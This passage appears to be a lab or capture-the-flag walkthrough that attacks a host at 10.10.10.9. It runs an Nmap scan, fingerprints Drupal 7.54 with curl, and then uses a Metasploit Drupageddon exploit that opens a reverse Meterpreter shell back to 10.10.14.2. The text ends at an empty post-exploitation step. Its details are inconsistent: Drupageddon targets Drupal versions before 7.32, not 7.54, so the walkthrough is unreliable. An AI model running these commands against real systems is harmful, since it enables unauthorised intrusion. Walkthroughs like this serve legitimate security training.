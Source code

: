 **Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.9
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
135/tcp open  msrpc  Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows_2003
```

### Step 2: Web Service Enumeration
Check the web service for CMS information.

**Command/Code:**
```bash
curl http://10.10.10.9/
```

**Output:**
```
<html>
<head>
<title>Drupal 7.54</title>
</head>
<body>
<h1>Welcome to Drupal</h1>
</body>
</html>
```

### Step 3: Drupal Exploitation
Use Metasploit to exploit the Drupal vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 10.10.10.9
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.9:80 - Connecting to the server...
[*] 10.10.10.9:80 - Sending exploit...
[*] Sending stage (175174 bytes) to 10.10.10.9
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.9:32891) at 2024-09-03 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a Meterpreter session, gather information and find flags.

